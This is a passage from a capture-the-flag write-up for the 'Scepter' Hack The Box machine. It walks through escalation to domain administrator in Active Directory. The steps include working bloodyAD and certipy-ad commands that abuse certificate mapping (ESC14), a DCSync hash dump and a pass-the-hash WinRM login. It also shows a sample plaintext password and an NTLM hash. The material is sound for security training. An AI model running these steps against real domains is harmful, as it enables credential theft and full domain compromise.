└─$ nxc smb dc01.scepter.htb --generate-krb5-file scepter.krb5.conf

└─$ export KRB5_CONFIG=scepter.krb5.conf

└─$ export KRB5CCNAME=h.brown.ccache

└─$ evil-winrm -i dc01.scepter.htb -r scepter.htb
```



At this point we can grab the user flag under their Desktop folder and begin looking at ways to escalate privileges to Administrator.

## Privilege Escalation
BloodHound shows that they are the only member in both the Certificate Management Service (CMS) and Helpdesk Admins group.



I figured that we could work our magic with AD CS again, but the lack of outbound object permissions and direct paths to other accounts had me at a loss here. Taking a look at other high-profile targets showed that the P.Adams user is a member of the Replication Operators group, meaning we could abuse the Directory Replication Service (DRS) to perform a DCSync attack and dump all hashes on the domain.



### Repeating ESC14
Eventually, I used BloodyAD to enumerate what write permissions we held which revealed that we can actually change the _altSecurityIdentities_ attribute for the P.Adams user. This is presumably from our membership in the CMS group. 

```
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -k get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=scepter,DC=htb
distinguishedName: CN=h.brown,CN=Users,DC=scepter,DC=htb
[...]
distinguishedName: CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
altSecurityIdentities: WRITE
```

The output doesn't show that one is set and is also the reason I couldn't see it during my earlier LDAP queries. Given that this could be anything, I just change it to match their name.

```
└─$ bloodyAD --host DC01.scepter.htb -d scepter.htb -k set object p.adams altSecurityIdentities -v 'X509:<RFC822>p.adams@scepter.htb'
```



From here on, it's the same attack as before. We can use A.Carter's privileges to update D.Baker's mail attribute in order to match the new _altSecurityIdentities_ set for P.Adams. Once that's set, we request a certificate as D.Baker whilst impersonating P.Adams which should give us a PFX file.

```
└─$ bloodyAD --host dc01.scepter.htb -d 'scepter.htb' -u 'A.Carter' -p 'Password123!' set object D.Baker mail -v 'p.adams@scepter.htb'

└─$ certipy-ad req -u d.baker@scepter.htb -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip 10.129.244.44
```



Next, we'll authenticate with it to grab their NTLM hash.

```
└─$ certipy-ad auth -pfx d.baker_442e63f4-aad0-4297-b1ec-bd68877aa2d9.pfx -domain scepter.htb -dc-ip 10.129.244.44 -username p.adams
```



### DCSync Attack
Finally, we already know this user can perform a DCSync attack, so I use Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to carry this out remotely.



Using the Administrator's NTLM in a Pass-The-Hash attack allows us to grab a shell over WinRM or the service of our choosing and grab the last flag under their Desktop folder.

```
└─$ evil-winrm -i dc01.scepter.htb -u administrator -H '[REDACTED]'
```



That's all y'all, this box was super neat due to the primary focus on Active Directory Certificate Services; I learned a lot about mappings and how the service works in general. I hope this was helpful to anyone following along or stuck and happy hacking!
